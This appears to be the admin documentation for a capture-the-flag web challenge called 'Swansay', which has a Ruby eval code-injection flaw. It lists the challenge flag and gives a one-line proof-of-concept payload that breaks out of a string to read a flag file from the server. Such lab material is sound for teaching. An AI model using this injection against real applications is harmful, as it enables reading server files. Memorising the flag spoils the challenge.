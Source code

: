 | metadata | <> |
|--- | --- |
| Developer Name(s) | Jack |
| Best Contact Slack handle / Email address | [redacted] |
| Challenge Category | Web |
| Challenge Tier | 3 |
| Challenge Type | Container |

| Player facing | <> |
|--- | --- |
|Challenge Name | Swansay |
|Challenge Description | Introducing... Swansay! It's like cowsay... but better ;) |
|Challenge Hint 1 | Apparently, blindly running untrusted input on the server-side is a bad idea |

| Admin Facing | <> |
|--- | --- |
|Challenge Flag| `WACTF{3v4l_15_t7uLy_evIl_bf3db02aeb7b2}` |
|Challenge Vuln| Ruby eval code injection |
|Docker Usage Idle| 5% CPU / 100MB RAM |
|Docker Usage Expected Peak| 10% CPU / 180MB RAM |
---

# Challenge PoC

1. Use the below payload to retrieve the flag
2.

```ruby
" + File.open("flag_ea268bad72a.txt").read + "
```

Note: The players can find the flag's filename by injecting code to show the current directory.
